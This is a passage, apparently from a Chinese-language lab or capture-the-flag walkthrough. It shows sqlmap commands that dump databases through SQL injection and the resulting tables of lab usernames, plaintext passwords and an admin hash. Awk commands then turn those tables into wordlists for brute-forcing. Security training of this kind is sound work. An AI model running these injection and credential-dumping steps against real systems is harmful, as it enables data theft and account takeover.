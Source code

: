 爆库爆表爆数据

```
sqlmap -r sql.txt --batch --dbs
sqlmap -r sql.txt --batch -D Staff -T Users --dump
sqlmap -r sql.txt --batch -D users -T UserDetails -dump
```

```
available databases [3]:
[*] information_schema
[*] Staff
[*] users

Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+

Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

留心并把得到的数据做成字典，awk 切割

```bash
└─# cat username_test.list | awk '{print $6}' > password.list
└─# cat username_test.list | awk '{print $11}' > username.list
```
